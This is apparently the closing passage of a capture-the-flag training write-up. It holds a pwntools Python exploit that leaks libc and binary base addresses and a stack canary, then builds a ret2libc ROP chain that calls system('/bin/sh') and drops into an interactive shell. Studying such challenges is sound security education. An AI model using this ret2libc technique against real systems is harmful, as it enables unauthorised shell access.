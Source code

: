 ```py
log.info("Libc Base: "+ str(hex(libc_base))) # log it
binary_base = int(str(all_leaked[-6])[2:], 16) - 4256 # calculate the binary offset from the leak.
log.info("binary_base: " + str(hex(binary_base))) # log it
canary = int(str(all_leaked[-4])[2:], 16) # store the canary from the leak

# pahse 2 : usign the leak to ret2libc

buf = b"A"*(0x60+8) + p64(canary) # fill the buffer till the canary and overwrite the canary with real one.
buf += p64(binary_base+0x0000000000001016) # random garbage to fill the rbp
buf += p64(binary_base+0x00000000000012cb) # return address
print(next(libc.search(b'/bin/sh\x00'))) # find the address of libc bin/sh
buf += p64(libc_base + next(libc.search(b'/bin/sh\x00'))) 
buf += p64(binary_base+0x0000000000001016) # return to make sure stack is aligned before a glibc call
buf += p64(libc_base + libc.sym.system) # call system.

p.sendlineafter("Missed again??? I'm so disappointed.", buf)


p.interactive()
```

Hope you loved this challenge in the training !Happy Hacking! :D